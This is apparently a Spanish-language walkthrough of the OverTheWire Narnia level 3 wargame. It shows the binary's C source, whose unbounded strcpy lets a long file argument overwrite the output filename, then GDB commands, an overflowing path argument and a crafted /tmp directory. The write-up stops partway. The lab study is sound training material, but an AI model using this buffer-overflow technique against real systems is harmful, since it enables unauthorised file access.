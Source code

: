 ## Narnia3
ssh narnia3@narnia.labs.overthewire.org -p 2226

~~~
cd /narnia/
./narnia3
~~~
codigo fuente
~~~
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv){

    int  ifd,  ofd;
    char ofile[16] = "/dev/null";
    char ifile[32];
    char buf[32];

    if(argc != 2){
        printf("usage, %s file, will send contents of file 2 /dev/null\n",argv[0]);
        exit(-1);
    }

    /* open files */
    strcpy(ifile, argv[1]);
    if((ofd = open(ofile,O_RDWR)) < 0 ){
        printf("error opening %s\n", ofile);
        exit(-1);
    }
    if((ifd = open(ifile, O_RDONLY)) < 0 ){
        printf("error opening %s\n", ifile);
        exit(-1);
    }

    /* copy from file1 to file2 */
    read(ifd, buf, sizeof(buf)-1);
    write(ofd,buf, sizeof(buf)-1);
    printf("copied contents of %s to a safer place... (%s)\n",ifile,ofile);

    /* close 'em */
    close(ifd);
    close(ofd);

    exit(1);
}
~~~
Verifiquemos el valor de ofile con GDB
Como el puntero ofile se colocará en EAX podemos ver su valor
~~~
gdb narnia3
break *main+93
run test
x/s $eax

run /AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/whatever
x/s $eax

mkdir -p /tmp/FOOBARFOOBARFOOBARFOOBARFOO/tmp
~~~